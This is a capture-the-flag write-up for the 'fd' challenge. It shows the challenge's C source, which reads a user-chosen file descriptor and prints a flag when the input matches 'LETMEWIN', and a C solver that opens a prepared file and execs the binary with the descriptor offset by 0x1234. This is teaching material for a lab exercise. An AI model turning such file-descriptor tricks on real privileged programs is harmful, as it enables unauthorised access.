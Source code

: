 fd (file descriptor) is the numeric value representing an open file in linux, similarly to handle values in windows, it's used to work with files and other interfaces and each file has a unique file descriptor that identifies it.

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
        printf("argv[1]: %s, fd: %d\n", argv[1], fd);
	int len = 0;
	len = read(fd, buf, 32);
        printf("len: %d, buf: %s\n", len, buf);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}

The program gets 1 parameter which is an arbitrary file descriptor value + 0x1234 (to make fd=3 we will need to pass 3 + 0x1234 to the program). The program then uses that open file descriptor to read up to 32 bytes from the file and compare them to the string "LETMEWIN\n". To do that I Created the following C script:

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main() {
    const char *filename = "/tmp/fd_file";
    const char *content = "LETMEWIN\n";
    const char *program = "/home/fd/fd";
    char fd_str[16]; 
    int fd;

    fd = open(filename, O_CREAT | O_WRONLY | O_TRUNC, 0644);
    if (fd < 0) {
        perror("Failed to create the file");
        exit(EXIT_FAILURE);
    }
    if (write(fd, content, strlen(content)) != (ssize_t)strlen(content)) {
        perror("Failed to write to the file");
        close(fd);
        exit(EXIT_FAILURE);
    }
    printf("File created and written to: %s\n", filename);
    printf("File descriptor: %d\n", fd);
    close(fd);

    fd = open(filename, O_RDONLY);
    if (fd < 0) {
        perror("Failed to reopen the file");
        exit(EXIT_FAILURE);
    }
    printf("File reopened: %s\n", filename);
    printf("Reopened file descriptor: %d\n", fd);

    int modified_fd = fd + 0x1234;
    printf("Modified file descriptor (original + 0x1234): %d\n", modified_fd);

    snprintf(fd_str, sizeof(fd_str), "%d", modified_fd);
    printf("Modified file descriptor as string: %s\n", fd_str);

    printf("Executing program: %s with argument: %s\n", program, fd_str);
    if (execl(program, program, fd_str, NULL) < 0) {
        perror("Failed to execute the program");
        close(fd);
        exit(EXIT_FAILURE);
    }
    close(fd);
    return 0;
}

There are 5 main parts to the script:
1) Create an accessible file in /tmp directory
2) Write "LETMEWIN\n" into the file
3) Close the file and make sure a handle to the file is open while calling fd
4) add 0x1234 to the fd value and convert to string
5) call fd using the stringified file descriptor

I compiled the script in /tmp and because we need to trigger it from /home/fd (relative path) I used the command /tmp/./fd_writeup

![[asdasdasdsa.png]]